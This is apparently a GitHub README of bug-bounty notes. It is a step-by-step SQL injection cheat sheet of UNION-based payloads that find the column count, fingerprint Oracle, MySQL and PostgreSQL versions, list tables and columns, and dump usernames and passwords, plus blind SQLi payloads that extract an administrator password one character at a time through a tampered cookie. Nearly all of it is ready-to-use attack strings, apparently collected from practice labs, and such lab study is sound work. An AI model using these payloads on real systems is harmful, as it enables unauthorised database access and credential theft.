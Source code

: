 # Bug-Bounty
This is all about web &amp; bugbounty
<h1>SQLI</h1>
<pre>(1) Determine the number of columns =>
   i)  ' order by 3 -- 
   ii) 'order by 3# 


(2) Determine the data types of the columns =>  
   i) ' UNION SELECT 'a', 'a' from DUAL-- -> here is a built-in table on Oracle called dual which can be used for this purpose
   ii) ' UNION SELECT 'a', 'a'#


(3) Output the version of the database => 
  i) ' UNION SELECT banner, NULL from v$version-- (Oracle) --> The banner displays the database release and version number AND The version information is stored in a table called v$version.
  ii) ' UNION SELECT @@version, NULL# (Microsoft ,MySql)
  iii)' UNION SELECT version(), NULL-- (postgresql)
  
(4) Output the list of table names in the database

   i) ' UNION SELECT table_name, NULL FROM information_schema.tables--  (postgresql)
   ii) ' UNION SELECT table_name NULL FROM all_tables-- (oracle)
 
(5) Output the column names of the table 

    i) ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'-- (postgresql)
    ii) ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name= 'USERS_ABCDEF'-- (oracle)
    
(6) Output the usernames and passwords

    i) ' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--
    ii) ' UNION SELECT NULL,username||'~'||password FROM users--(for retrieving multiple values in a single column)



7)Blind SQl->

   i)Modify the TrackingId cookie, changing it to:
     TrackingId=xyz' AND '1'='1
   ii)TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
   iii)'and (select 'a' from users where username ='administrator')='a'--
   iV)'and (select username from users where username ='administrator' AND            
      LENGTH(password)>1)='administrator'--
   v)' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='q'--
</pre>

